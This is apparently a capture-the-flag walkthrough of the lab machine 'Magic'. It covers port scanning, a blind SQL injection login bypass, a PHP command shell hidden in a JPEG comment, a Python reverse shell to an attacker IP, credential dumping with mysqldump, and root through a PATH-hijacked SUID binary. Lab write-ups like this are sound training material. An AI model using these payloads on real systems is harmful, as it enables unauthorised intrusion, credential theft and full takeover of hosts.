

Magic - TyPx0oN

- Machine Name is Magic
- This is Medium Box and ip address is 10.10.10.185
Nmap Scan
# nmap -sSV -O -A -T4 10.10.10.185
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-25 23:45 +0630
Nmap scan report for 10.10.10.185
Host is up (0.21s latency).
Not shown: 998 closed ports
PORT STATE SERVICE VERSION
22/tcp open ssh OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
| 2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
| 256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_ 256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open http Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=4/25%OT=22%CT=1%CU=30120%PV=Y%DS=2%DC=T%G=Y%TM=5EA4706
OS:5%P=x86_64-pc-linux-gnu)SEQ(SP=FD%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)SEQ(
OS:TI=Z%CI=Z%TS=A)OPS(O1=M54BST11NW7%O2=M54BST11NW7%O3=M54BNNT11NW7%O4=M54B
OS:ST11NW7%O5=M54BST11NW7%O6=M54BST11)WIN(W1=FE88%W2=FE88%W3=FE88%W4=FE88%W
OS:5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O=M54BNNSNW7%CC=Y%Q=)T1(R=Y%DF=Y
OS:%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%
OS:T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD
OS:=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE
OS:(R=Y%DFI=N%T=40%CD=S)
Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
TRACEROUTE (using port 554/tcp)
HOP RTT ADDRESS
1 363.00 ms 10.10.16.1
2 216.36 ms 10.10.10.185
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 66.62 secondsWeb
As Nmap Result port 22 (ssh) and port 80(apache httpd) are open
I type this ip address in browser , I saw this webpage

I found login panel and I try with sqli(blind) to login

Ohh It work and I get loginsuccessful and I found open upload buttom
I try to upload php file but it is not work and it can upload only image

In this time , I use exiftool to add myphp code into image
# exiftool -Comment='<?php if(isset($_REQUEST['cmd'])){echo "<pre>"; $cmd = ($_REQUEST['cmd']); system($cmd); echo "</pre>"; die; }?>' al.jpg
# exiftool al.jpg
ExifTool Version Number : 11.88
File Name : al.jpg
Directory : .
File Size : 29 kB
File Modification Date/Time : 2020:04:26 00:00:31+06:30
File Access Date/Time : 2020:04:26 16:31:48+06:30
File Inode Change Date/Time : 2020:04:26 16:31:48+06:30
File Permissions : rw-rw-r--
File Type : JPEG
File Type Extension : jpg
MIME Type : image/jpeg
JFIF Version : 1.01
Resolution Unit : None
X Resolution : 1
Y Resolution : 1
Comment : <?php if(isset($_REQUEST[cmd])){ echo "<pre>"; $cmd = ($_REQUEST[cmd]); system($cmd); echo "</pre>"; die; }?>
Image Width : 3840
Image Height : 2160
Encoding Process : Progressive DCT, Huffman coding
Bits Per Sample : 8
Color Components : 1
Image Size : 3840x2160
Megapixels : 8.3# cp al.jpg al.php.jpgI upload this , Upload is successfull
In Other tab of browser i call this file and add ?cmd=ls
Ohh It’s Work

Trying to get shell
- I tried with to get reverse shell
- I use python reverse Shell

- This is My python reverse shell code
# python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect( ("10.10.17.191",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' - In the other hand , I open my terminal and use nc -lvnp 4444 to listen

- Finally I got lov priv shell
User
In this time I check some file and some directroy
I found db.php5 file in /var/www/Magic
$ cat db.php5 | grep private private static $dbName = 'Magic' ; private static $dbHost = 'localhost' ; private static $dbUsername = 'theseus'; private static $dbUserPassword = 'iamkingtheseus';I tried to get login with this password but it is not ok
In this time , I think this is dbpassword and i need to dump
$ mysqldump -A -u theseus --password=iamkingtheseus -XAfter this I got User Theseus password

I use this password to login as theseus
It is work

In this time i got userflag in /home/theseus folder

Priveleges Escalation
I used find command to find some SUID file
$ find / -perm -u=s -type f 2>/dev/nullIn this time I found some strange thing
It is sysinfo

In this time I know this sysinfo command connect with lshw
In My Machinekali@kali# cat lshw python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect( ("10.10.17.191",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'In Victim Machine
$ mkdir /tmp/test $ cd /tmp/testDownload lshw file into this machine
$ wget http://myipaddress/lshw $ chmod 755 lshwI change the path and run sysinfo
$ export PATH=/tmp/test:$PATH export PATH=/tmp/test:$PATH $ sysinfoIn other window of my terminal

Finally Owned This Machine